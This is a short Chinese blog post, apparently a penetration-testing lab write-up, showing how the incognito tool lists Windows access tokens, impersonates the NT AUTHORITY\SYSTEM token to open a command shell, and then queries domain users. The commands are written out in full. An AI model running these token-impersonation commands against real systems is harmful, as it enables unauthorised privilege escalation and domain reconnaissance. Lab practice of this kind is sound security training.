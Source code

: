 使用incognito工具实现该实验

列出当前的token令牌列表 incognito.exe list_tokens -u

<img src="https://s1.vika.cn/space/2023/07/28/1d685537b6c046c695c1bc58331a3c6d" alt="666" />

使用system的令牌 incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd

<img src="https://s1.vika.cn/space/2023/07/28/17f906c14eaa466bb7b385734cecd305" alt="image-20230728190832484" />

whoami可以看到现在是system权限，现在我们再去查询域内用户

<img src="https://s1.vika.cn/space/2023/07/28/b418a86fef5445f2a5ebf9c1174e60b3" alt="image-20230728191022938" />

成功查询到域内用户，实验完成


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/c8bae9e9/  

